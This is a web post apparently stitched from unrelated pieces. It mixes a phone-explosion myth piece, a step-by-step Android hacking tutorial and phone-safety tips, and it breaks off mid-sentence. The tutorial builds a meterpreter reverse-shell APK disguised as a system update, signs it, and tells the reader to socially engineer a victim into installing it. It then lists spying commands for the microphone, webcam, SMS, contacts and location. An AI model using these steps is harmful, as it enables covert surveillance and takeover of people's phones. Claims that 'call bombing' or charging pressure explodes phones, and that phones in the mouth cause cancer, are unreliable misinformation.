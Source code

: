 Akash Angle burts the myth of how a classical Mobile phones aka smarphones here of any kind which could be or can be set as a target and blasted in order to destroy it as per Command and Control Unit set by the hacker.

Mobile phones may be treated like playthings these days. However, these flashy gadgets can prove dangerous if not handled with care:-
 
How and why do mobile phone blasts happen?
 
 The most common reasons for a cell phone to explode are using it while the phone is being charged and 'call bombing'. Charging puts pressure on the motherboard of the phone, using it during charging increases this pressure manifold. This causes the cheap electronic components in some mobiles to explode. Call bombing refers to calls or missed calls received from international numbers. If one receives or calls these numbers back and the call exceeds a certain amount of time, the phone will blast. There is also a malware, or bug, found in some Android-based smartphones, that can also cause explosion by exerting extra pressure on the motherboard during charging.
 
This is as explained below for Android.
When it comes to hacking Android phones, there are lots of ways for doing so. There are apps, web portals, scripts, and whatnot. We have already seen how to hack android device with spynote.

So today we are going to guide you on how to hack android phone using Metasploit and MSFVenom.

For performing this hack using Metasploit or msfvenom, you’ll need Kali Linux OS installed in your computer and Android Phone as a target. And obviously, internet connection is a must.

Disclaimer:
Please be aware that hacking is illegal unless you have permission from the account owner and the parties involved. This post should be used as a tool to help people understand how hackers are hacking android devices with Metasploit and msfvenom. The Hacking world team shall not be held responsible if any criminal charges are brought against any person who misuses the information on this website to violate the law.

Step 1: Creating a malicious apk file

Open your KALI LINUX. Open your Terminal and type in the following command

# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.78.129 LPORT=4444 R > SystemUpdate.apk

output:-

**LHOST= YOUR IP address

**LPORT= 4444

**Use ifconfig to find your IP address if you don`t know.

# ifconfig

Step 2: Delivering APK file to the victim

You have now created your malicious spyware .apk file using Metasploit and msfvenom. It will be saved to your /home/ folder by default. Find your newly created hackingworld.apk and send it to your target (hackingworld.apk). Use social engineering to do this so that the victim does install the apk.

**If you get any signing errors or issues use the following:

Keytool (Comes Pre-Installed in Kali Linux)

keytool -genkey -v -keystore my-release-key.Keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

Jarsigner (Comes Pre-Installed in Kali Linux)

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore hackingworld.apk aliasname

jarsigner -verify -verbose -certs hackingworld.apk
Step 3: Metasploit setup

Open up a new terminal and use the following command to start Metasploit framework.

# msfconsole

Now in the Metasploit framework console type the following

msf  > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.78.129
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > exploit

Here

**LHOST= YOUR IP address

**LPORT= 4444

Now when the user opens up the app on his/her phone, you will get a session with that device. And whoa! The device is yours to operate. Metasploit and msfvenom are not that difficult to use but need very methodology steps that need to implement.

Step 4: Exploit..!!!

The moment the victim opens the application on their device, you will get a meterpreter shell on the Kali Linux terminal.

You have now successfully hacked the android device using Metasploit and msfvenom

Some commands you should try using Metasploit and msfvenom:

– record_mic

Records the audio from the android device and stores it on the local drive.

– webcam_snap

Lets you take the images by hacking the android camera of the device

– webcam_stream

Lets you stream live video from the hacked android camera

– dump_contacts

Lets you hack and copy all the contacts from the victim’s phone.

– dump_sms

Lets you hack the victim’s messages and stored it in a text file on your system.

– geolocate

Helps you track the hacked device by location

So, this is how hackers hack using Metasploit and msfvenom on the local network. But what if we wanted to hack android devices with Metasploit over the internet.

Note:- Screenshots are not purposely added as this is a limitation here on my system and I do not want to show more information regarding what is happening in my console.

##Precautions to be taken as per Akash Angle:- 
 
 
What care should be taken to ensure not much pressure is put on the phone?
 
 Avoid using the phone while the battery is being charged. If you wish to receive a call during this time, disconnect the phone from charger before connecting the call. Ensure it is not over-charged by removing the electric supply when the battery is fully charged. If your battery seems to have swollen, replace it immediately.
 
 
Why is it dangerous to buy cheap phones?
 
 Most cheap models, like those of Chinese make, use hardware and components that are not branded and often substandard. The quality of vital accessories such as battery and earphones are compromised which can have disastrous outcome. Such components cannot be used continuously for as long as their high-quality substitutes. Their shelf life is also shorter.
 
 
Is it more harmful to surf internet or download anything on mobile phones?
 
 Yes, because the anti-virus softwares for mobile phones are not as effective. That is why one should avoid downloading anything from a third party vendor, ie directly from the internet browser. Instead use the in-built store or market application provided by the operating system. Malware, which is software that creates a bug in the operating system of the phone, often gets downloaded with third party tools. The sites that you visit using the phone must start with an https (which means they are encrypted or safe sites).
 
 Avoid using public or unsecured Wi-Fi connections. A hacker could access the mobile device through a port that is not secured. Make sure the Bluetooth connectivity is not switched on in public places as it can be used to send malicious files which corrupt the operating system.
 
 
Are there certain precautions that must be practiced while using a mobile phone?
 
 While communicating using your cell phone, try to keep the cell phone away from the body as this would reduce the strength of the electromagnetic field of the radiations. Whenever possible, use the speaker-phone mode or a wireless blue tooth headset. For long conversations, use a landline phone.
 
 Avoid carrying your cell phone on your body at all times. When in pocket, make sure that key pad is positioned toward your body so that the transmitted electromagnetic fields move away from you rather than through you. Do not keep it near your body at night such as under pillow or a bedside table, particularly if pregnant. You can also put it on 'flight' or 'offline' mode, which stops electromagnetic emissions. Avoid using your cell phone when signal is weak or when moving at high speed, such as in car or train.
 
 
How to deal with a wet phone?
 
 After removing the phone from water, dismantle it by removing battery, SIM and memory cards and switch it off (only SIM card in case of an iPhone). Dry each component thoroughly (but gently) with a towel until the phone is dry to the touch. Then put all components in a bowl of uncooked rice in a way that all components are totally covered. If you have any silica packets (the ones that come with products like new shoes), put them in to the bowl too. Leave it there for 12-24 hours.
 
 Never use a hair dryer to try to dry the phone quicker. Drying it with a heated hair dryer can cause important parts to melt, while forcing water further into the phone. Drying it will a cold hair dryer will just force water deeper into the phone.
 
 
Why you shouldn't hold your mobile in your mouth?
 
 Using mobile phones too close to your mouth regularly or holding cell phone in your mouth frequently could lead to malignant salivary gland cancer and tumors in mouth. Regular cell phone users who speak